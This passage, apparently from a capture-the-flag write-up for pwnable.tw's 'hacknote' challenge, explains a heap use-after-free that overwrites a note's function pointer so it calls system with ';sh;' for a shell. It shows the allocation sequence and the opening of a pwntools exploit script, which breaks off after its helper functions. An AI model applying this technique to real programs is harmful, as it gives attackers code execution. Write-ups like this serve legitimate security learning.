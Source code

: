 Since `print_note` calls `note->print_func` with a pointer to the note itself, this will call `system('\x90\xd0\xab\xff;sh;\xff')`. 
The address of system itself will be provided as an argument. To still get a shell, we can surround `sh` with semi-colons 
to make them appear as separate commands to the shell. 

&nbsp;

We can reuse the setup we used to leak libc. If we just free the last note created (Note D), then we can create another 
note that will also overwrite Note B's struct:
```c
//...
// New note with 8 bytes contents (Note D)
malloc(8);  // = 0x10 Note D struct   <- Note A contents
malloc(8);  // = 0x20 Note D contents -> Note B struct
// Delete Note D
free(0x10);
free(0x20);
// New note with 8 bytes contents (Note E)
malloc(8);  // = 0x10 Note E struct <-> Note D struct   <-> Note A contents
malloc(8);  // = 0x20 Note E struct <-> Note D contents <-> Note B struct
```

Now, if we print the note at index 1, we will get a shell.

## Script
```python
from pwn import *

context.terminal = '/bin/sh'

r = remote('chall.pwnable.tw', 10102)
libc = ELF('./libc_32.so.6')
elf = ELF('./hacknote')

L_ADDR_SYSTEM = libc.symbols['system']
L_ADDR_PUTS = libc.symbols['puts']

ADDR_PUTS_GOT = elf.got['puts']
ADDR_PRINT_FUNC = 0x804862b


def add_note(size, contents):
    log.info('Adding note: [size]: %d  [contents]: %s' % (size, contents))
    r.write('1\n')
    r.recvuntil('Note size :')
    r.write(str(size))
    r.recvuntil('Content :')
    r.write(contents)
    r.recvuntil('Success !\n')
    skip_menu()


def delete_note(index):
    r.write('2')
    r.recvuntil('Index :')
    r.write(str(index))
    r.recvuntil('Success')
    skip_menu()


def skip_menu():
    r.recvuntil('----------------------')
    r.recvuntil('----------------------')
```